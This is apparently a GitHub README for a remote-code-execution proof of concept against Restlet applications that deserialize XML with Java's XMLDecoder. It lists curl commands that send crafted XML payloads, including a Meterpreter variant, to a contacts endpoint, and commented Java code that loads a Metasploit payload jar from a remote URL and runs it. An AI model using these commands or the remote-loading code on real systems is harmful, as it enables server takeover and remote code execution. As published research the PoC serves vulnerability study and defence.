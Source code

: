 ## RestletXMLDecoder

RCE Exploit PoC for Restlet application using XMLDecoder as Unmarshaler

Expected use:
curl -X PUT --header "content-type: application/x-java-serialized-object+xml" --data @contact.xml "http://localhost:8180/contacts"

Generic Exploit:
curl -X PUT --header "content-type: application/x-java-serialized-object+xml" --data @contact-rce.xml "http://localhost:8180/contacts"

Meterpreter Exploit:
curl -X PUT --header "content-type: application/x-java-serialized-object+xml" --data @contact-met.xml "http://localhost:8180/contacts"

Notes:

            // URLClassLoader u = new URLClassLoader(new URL[]{new URL("http://localhost/~alvaro/met.jar")});
            // Class c = u.loadClass("metasploit.Payload");
            // c.newInstance();
            // try {
            //    c.getMethod("main",new Class[]{Class.forName("[Ljava.lang.String;")}).invoke(null,new Object[]{new String[0]});
            // } catch (Exception e) {
            //    e.printStackTrace();
            // }
